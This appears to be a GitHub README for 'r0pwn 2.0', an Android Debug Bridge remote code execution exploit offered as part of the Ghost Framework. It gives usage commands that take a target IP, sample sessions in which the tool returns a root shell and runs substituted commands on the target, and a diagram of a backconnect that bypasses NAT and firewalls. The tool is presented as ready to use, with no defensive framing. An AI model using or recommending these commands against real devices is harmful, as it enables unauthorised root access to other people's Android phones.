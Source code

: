 # r0pwn 2.0

*hmm...*

    Android Debug Bridge RCE exploit.

## Table of contents

* [Official Release](#release)
* [Dependencies](#dependencies)
* [Exploiting](#exploiting)
* [Code Substitution](#substitution)
* [Exploit Algorithm](#algorithm)

## Release

This is a repo of an exploit, but this exploit is a part of the Ghost Framework developed by @entynetproject.

[Ghost Framework](https://github.com/entynetproject/ghost)

## Dependencies

* `android-platform-tools`

## Exploiting

```shell
python3 exploit.py <target>
```

**NOTE:** Target should have wireless debugging turned on

```shell
root@kali:~/r0pwn# python3 exploit.py 192.168.1.75

======================
r0pwn by Ivan Nikolsky
======================

Android Debug Bridge RCE exploit.

exploiting 192.168.1.75...
root@nevada:~# whoami
root
root@nevada:~#
```

## Substitution

```shell
root@kali:~/r0pwn# python3 exploit.py <target> -s <code>
```

**NOTE:** Angry substitution will not work without SUID/root!

```shell
root@kali:~/r0pwn# python3 exploit.py 192.168.1.75 -s whoami

======================
r0pwn by Ivan Nikolsky
======================

Android Debug Bridge RCE exploit.

exploiting 192.168.1.75...
substituting whoami...
root
```

# Algorithm

```
                    backconnect (over ADB)
               +------------------------------+
               |                              |
attacker --- r0pwn --- NAT -+- Firewall -+- target
                            |            |
                            +------------+
                                bypass
```
